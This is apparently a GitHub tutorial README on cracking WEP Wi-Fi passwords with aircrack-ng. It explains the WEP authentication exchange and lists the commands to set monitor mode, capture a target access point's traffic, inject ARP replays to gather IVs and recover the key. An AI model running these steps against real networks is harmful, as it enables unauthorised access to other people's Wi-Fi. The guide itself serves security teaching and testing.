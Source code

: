 # WEP and WPA Password Cracking
To successfully crack WEP/WPA, you first need to be able to set your wireless network card in "monitor" mode to passively capture packets without being associated with a network.

One of the best tool/suite which can be used to **assess** WiFi Network security is [Aircrack-ng](https://github.com/aircrack-ng/aircrack-ng).

[Aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) is a complete suite of tools to assess WiFi network security.

It focuses on different areas of WiFi security:
 * Monitoring: Packet capture and export of data to text files for further processing by third party tools.
 * Attacking: Replay attacks, deauthentication, fake access points and others via packet injection.
 * Testing: Checking WiFi cards and driver capabilities (capture and injection).
 * Cracking: WEP and WPA PSK (WPA 1 and 2).

## Prerequisites
Install the `aircrack-ng` suite
 * `sudo apt install aircrack-ng`

# Crack WEP Password
## How WEP works
Generally WEP encryption works between wireless AP and wireless station (host). First of all, the **host** and the **AP** share their secret key which we commonly call as passphrase.

![alt text](https://vocal.com/wp-content/uploads/2012/05/wep_fig1.gif)

 1. The **host** sends an authentication request to the **AP**. In this step no data encryption takes place

 2. The **AP** responds with an authentication response message consist of challenge text

 3. Now the client uses its secret WEP key to encrypt the challenge text and sends it to the access access point

 4. If the access point successfully decrypt the encrypted challenge and retrieve the original challenge text then it comes to know that the client is also using the same secret key. So responds with an **Confirmation Success** message

 5. Finally, data transfer takes place


# READ WIFI NETWORK INTERFACE DATA

 1. Authenticate a superuser
 2. Execute `iw` command in order to find and manipulate your wireless devices and their configuration 
```
sudo su 
iw dev
```
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WEP/1.%20iw%20dev.png?raw=true)

# START CRACKING

 * The first thing we have to do is to set our network card in *monitor mode* which allows to monitor all traffic received on a wireless channel
    * `airmon-ng start <INTERFACE_NAME>`
 * Check again your network wireless card name using `iw dev` command
     * `iw dev`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WEP/2.%20iw%20dev.png?raw=true)
 * Let's now start `airodump-ng` in order to obtain some useful information about `AP Name`, `Channel` and `BSSID`
    * `airodump-ng <INTERFACE_NAME_MONITOR_MODE>`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WEP/3.%20airodump-ng.png?raw=true)
 * We can now start capturing some data using (again) `airodump-ng` command
 * `airodump-ng -c <NUM_CHANNEL> --bssid <AP_MAC_ADDRESS> -w <OUTPUT_FILE_CAPTURE> <INTERFACE_NAME_MONITOR_MODE>`
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WEP/4.%20airodump-ng%20capture.png?raw=true)

## Start cracking the network password

 * If we need to receive more traffic, we can use `aireplay-ng` command which allows us to send `ARP` requests from hosts to th AP. This utility will trigger traffic through AP giving us the right amount of **Initialization Vector (IV)** in order to retrieve the password.
    * `aireplay-ng -3 <INTERFACE_NAME_MONITOR_MODE> -b <AP_MAC_ADDRESS>`
 * Meanwhile, in another terminal, we can run `aircrack-ng` (as superuser) in order to decrypt the network password
    * `aircrack-ng <OUTPUT_FILE_CAPTURE> `
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/WEP_WPA2_Crack/WEP/5.%20cracking.png?raw=true)

## STOP MONITOR MODE

Remember to disable the **monitor mode** from your wireless network card
 * `airmon-ng stop <INTERFACE_NAME>`